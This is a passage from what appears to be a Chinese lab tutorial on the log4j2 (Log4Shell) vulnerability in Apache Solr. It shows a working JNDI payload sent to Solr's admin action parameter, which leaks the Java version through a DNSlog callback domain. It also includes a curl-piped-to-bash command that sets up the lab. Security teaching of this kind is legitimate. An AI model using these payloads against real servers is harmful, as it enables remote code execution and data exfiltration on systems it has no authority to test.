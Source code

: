 ```bash
http://127.0.0.1:8983
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640098608085)

触发漏洞的方法非常简单，只需要向 Solr 管理员接口的 action 参数发送 Payload ，由于该接口会调用 log4j 记录日志，因此会触发漏洞执行。
该接口如下：

```bash
http://127.0.0.1:8983/solr/admin/cores?action=
```

接下来我们使用 DNSlog 来构造验证 Payload。

_DNS Log 对于大部分渗透测试的同学来说应该会比较熟悉，经常被用于测试盲打盲注类的漏洞。如果你不清楚，可以简单理解为：我们获取一个临时的域名，如果远程服务器尝试访问该域名，就会在 DNS 上留下访问记录，此时我们可以通过查询该记录获取到一些外带信息_

首先在浏览器中访问 http://dnslog.cn， 然后点击 “Get SubDomain”，你会获得一个随机生成的域名： `xxxxxx.dnslog.cn`:

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640098694047)

然后我们构造如下 Payload：(记得使用你获取的域名替换 xxxxxx)

```bash
${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn}
```

Payload 含义：`${sys:java.version}`` 如果被执行，将返回 Solr 后端使用的 Java 版本号。

我们将以上 Payload 发送到 action 接口，方法是在浏览器中访问如下地址：

```bash
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn}
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640098756385)

然后我们回到 DNS log 网页，点击 Refresh Record，可以看到新增了一条记录：

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640098776400)

其中 `1.8.0_102` 就是后端 Java 的版本号，说明 Payload 成功被执行，说明存在 log4j2 RCE 漏洞。

当然，以上 DNS log 只是作为验证漏洞是否存在的方法之一，而漏洞的利用方式（例如获取远程主机的控制权限）我们将在后文中继续介绍，请继续往下看。

## 漏洞原理分析

打开终端，运行如下代码初始化实验环境：

```bash
curl 'https://labfile.oss.aliyuncs.com/courses/7635/init-2.sh' -s | bash
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211222-1640154488947)

输出如上图所示，表示初始化完成。

打开桌面上的 IDEA，我们后续将通过使用 IDEA 运行 Java 代码，对漏洞进行演示：
